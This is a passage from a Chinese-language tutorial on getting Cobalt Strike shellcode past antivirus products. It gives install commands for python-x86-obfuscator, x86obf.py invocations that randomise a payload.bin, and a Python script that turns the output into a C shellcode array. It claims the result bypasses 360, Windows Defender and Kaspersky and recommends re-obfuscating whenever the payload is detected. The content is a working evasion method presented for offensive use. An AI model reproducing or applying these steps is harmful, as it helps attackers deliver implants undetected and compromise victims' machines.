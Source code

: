 这里我决定采用一些比较稀奇的方式。

[![](https://p1.ssl.qhimg.com/t015586fbd027f8b737.png)](https://p1.ssl.qhimg.com/t015586fbd027f8b737.png)

通过注释掉shellcode,不难发现,他是针对shellcode加了特征码来查杀的，云端估计会进行动态分析，然后扫描shellcode然后给shellcode加特征。

> 我的思路是对shellcode进行混淆

实现混淆目前我已知的两种方式:

1.很老很大众的编码器,以前效果贼6的msf也自带的shikata_ga_nai，其原理是内存xor自解密。

2.真正的等价替换shellcode,完全去除本身特征(杀软加针对工具的特征，那就是另说了)

这里我介绍萌新都可以学会使用的第二种方法，原理方面的话，下次再展开与shikata一起来讲讲。

```
1.pip install distorm3
2.git clone https://github.com/kgretzky/python-x86-obfuscator.git
3.cd
```

然后cs生成raw的payload.bin,然后生成混淆

`python  x86obf.py -i payload.bin -o output.bin -r 0-184`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0177aa512175fcad70.png)

> 关键一些点还是大致看出来

想要加强混淆，可以执行:

`python  x86obf.py -i payload.bin -o output.bin -r 0-184 -p 2 -f 10`

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01e2fd5bd60542deeb.png)

> 可以看到非常恐怖了,基本都不认识了, 但是体积也变大了很多

接着我们直接提取成shellcode的数组形式:

```
#!/usr/bin/env python3
shellcode = 'unsigned char buf[] = "'
with open("output1.bin", "rb") as f:
    content = f.read()
# print(content)
for i in content:
    shellcode += str(hex(i)).replace("0x", "\\x")
shellcode += '";'
print(shellcode)
```

然后直接替换上面的shellcode就行，然后我们再来看一下效果:

> 基本可以免杀, 但是如果360上传云，很快就会被杀。解决方案就是:被杀的时候，继续生成和替换shellcode就行了，每次都是随机混淆的，都可以起到免杀效果。
同时Wd是可以过掉的,卡巴斯基也是可以上线的，但是也仅仅是上线而已。
